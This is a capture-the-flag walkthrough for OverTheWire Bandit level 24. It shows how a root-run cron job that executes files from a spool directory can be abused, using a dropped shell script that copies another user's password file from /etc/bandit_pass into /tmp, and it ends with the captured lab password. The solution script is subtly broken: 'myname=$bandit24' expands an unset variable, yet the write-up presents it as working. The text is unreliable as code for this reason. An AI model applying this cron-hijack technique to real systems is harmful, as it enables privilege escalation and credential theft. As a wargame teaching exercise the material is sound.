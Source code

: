 ## Bandit Level 24

## Level goal
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
**NOTE:** This level requires you to create your own first shell-script.

## Solution
    - **cd /etc/cron.d**
    - **cat cronjob_bandit24** => bandit24 /usr/bin/cronjob_bandit24.sh
    - cd /usr/bin => cat cronjob_bandit24.sh

    ```
     #!/bin/bash
    myname=$(whoami)
    cd /var/spool/$myname/foo
    echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
    for i in * .*;
    do
        if [ "$i" != "." -a "$i" != ".." ];
        then
            echo "Handling $i"
            owner="$(stat --format "%U" ./$i)"
            if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
            fi
            rm -f ./$i
        fi
    done
    ```

    - go to the specified file, create the script and run it to obtain the next password
    - **cd /var/spool/$myname/foo
    - nano firstScrip.sh

     ```
      #!/bin/bash
    myname=$bandit24
    mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
    echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
    cat /etc/bandit_pass/$myname > /tmp/$mytarget
    ```

    - we obtain the path /tmp/ee4ee1703b083edac9f8183e4ae70293
    - cat /tmp/ee4ee1703b083edac9f8183e4ae70293

## Password
    - gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
